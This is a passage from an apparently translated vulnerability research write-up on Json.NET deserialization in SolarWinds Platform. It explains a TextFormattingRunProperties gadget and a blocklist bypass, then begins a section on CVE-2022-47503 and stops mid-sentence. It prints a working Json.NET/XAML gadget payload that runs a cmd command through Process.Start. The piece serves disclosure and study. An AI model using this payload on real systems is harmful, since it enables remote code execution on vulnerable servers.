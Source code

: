 ```bash
        return XamlReader.Parse(@string); // [4]
    }
    ...
}
```

代码段 20 TextFormattingRunProperties deserialization gadget

在 \[1\] 处，可以看到该类使用 `Serializable` 属性定义。

在 \[2\] 处，定义了 `Serializable` 构造函数。

在 \[3\] 处，它调用了 `GetObjectFromSerializationInfo` 方法，输入为受攻击者控制。

在 \[4\] 处，攻击者的输入被传递给 `XamlReader.Parse` 方法，从而导致使用 XAML 反序列化小工具的远程代码执行。

由于我们已经分析了 `Json.NET` 的能力，我们知道在反序列化过程中可以调用 `Serializable` 构造函数。基于这一点，即使该小工具没有在 `ysoserial.net` 中实现，也可以利用 `Json.NET`。示例小工具：

```bash
{
    '$type':'Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties,
Microsoft.PowerShell.Editor, Version=3.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35',
    'ForegroundBrush':'<ResourceDictionary
      xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\"
      xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\"
      xmlns:System=\"clr-namespace:System;assembly=mscorlib\"
      xmlns:Diag=\"clr-namespace:System.Diagnostics;assembly=system\">
            <ObjectDataProvider x:Key=\"LaunchCalc\" ObjectType = \"{ x:Type
Diag:Process}\" MethodName = \"Start\" >
        <ObjectDataProvider.MethodParameters>
        <System:String>cmd</System:String>
        <System:String>/c whoami >
C:\\Users\\Public\\abcd.txt</System:String>
        </ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </ResourceDictionary>'
}
```

代码段 21 Sample TextFormattingRunProperties gadget for Json.NET

总结一下，我们对黑名单的第一个绕过是基于该列表中的错误，其中提供了 DLL 名称而不是类名。尽管该小工具在 `ysoserial.net` 中没有为 `Json.NET` 实现，但事实证明它可以与有针对性的序列化器一起使用。

如果我们觉得没有其他选择，我们可能要验证小工具的工作原理，可能会发现它也可以用于利用不同的序列化程序。

#### 1.7 SolarWinds Platform – 第二个绕过 – CVE-2022-47503

当将上一个漏洞报告给供应商时，我的第一个想法是：“它可能会被修复在黑名单中的项。”因此，我必须找到不同的方法来利用我们的反序列化漏洞。我的研究想法是：查看 `SolarWinds` 中实现的类，并验证：

-   有没有任何可以由 `Json.NET` 反序列化的类。
-   这会导致一些潜在的危险行为。

经过一段时间，我找到了 `SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy` 类：
